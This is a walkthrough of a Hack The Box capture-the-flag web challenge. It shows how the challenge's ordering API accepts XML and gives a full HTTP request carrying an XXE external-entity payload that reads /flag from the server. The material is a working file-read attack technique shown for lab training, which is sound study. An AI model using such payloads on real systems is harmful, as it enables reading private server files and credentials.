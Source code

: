 ```yaml
---
title: "baby WAFfles order"
date: 2021-10-08T12:49:00-00:00
publishdate: 2021-07-19T18:00:00-00:00
releasedate: 2020-11-19T00:00:00-00:00
draft: false
hideTitle: false
Cover: /images/matrix-map.png
icon: /images/padlock-square.png
toc: true
tags: ["SQL", "Broken API"]
categories: ["Challenge", "Walkthrough", "HTB", "Web", "Easy"]
description: "Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!"
---
```


# baby WAFfles order

## First Take

Download the challenge files: it is a docker, showing you the source code for the whole challenge.

> Obvious hint: the title of the website is **<u>xxe</u>**

![Screenshot 2021-10-08 13:28:52](Screenshot%202021-10-08%2013:28:52.png)

Read all the source code, understand how the web app works. In essence, the challenge is an order-taking API for a fictional restaurant, taking orders for either **Ice Scream** or **WAFfles**. Orders may be submitted to /api/order as:

- application/json
- application/xml



## Converting Request to XML

It appears that the website is configured to submit orders as json, but the endpoint will still accept xml. Try running the docker and interacting with it: submit an order and catch the request in Burp. The POST will have content-type application/json, but go ahead and convert it to the equivalent XML request:

> Change the request Content-Type, Content-Length, and body to match:

```http
POST /api/order HTTP/1.1
Host: 68.183.41.74:31284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.41.74:31284/
Content-Type: application/xml
Origin: http://68.183.41.74:31284
Content-Length: 97
Connection: close
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImZha2VuYW1lIn0%3D

<?xml version='1.0'?>
<foo>
 	<table_num>"3"</table_num>
 	<food>"Ice Scream"</food>
</foo>

```

Submitting the above request shows the app is listening for XML.



## Adapting to XXE

The site is called xxe, so let's try the most basic xxe based on the above request. We already know two things:

- The path to the flag  (since we were given the source code)
   The flag should reside in the root folder: **/flag**
- The parameter in the message body that will be reflected to the client
  The **food** is reflected when the order is confirmed

So we should read the file /flag and inject into **food** so we can see it directly.

```html
POST /api/order HTTP/1.1
Host: 68.183.41.74:31284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://68.183.41.74:31284/
Content-Type: application/xml
Origin: http://68.183.41.74:31284
Content-Length: 206
Connection: close
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImZha2VuYW1lIn0%3D

<?xml version='1.0'?>
<!DOCTYPE anything [
<!ELEMENT anything ANY>
<!ENTITY file SYSTEM "file:///flag">
]>
<anything>
 	<table_num>"3"</table_num>
 	<food>
		"Ice Scream"
		&file;
	</food>
</anything>

```

Submitting the above request will produce the flag:

![success](success.png)
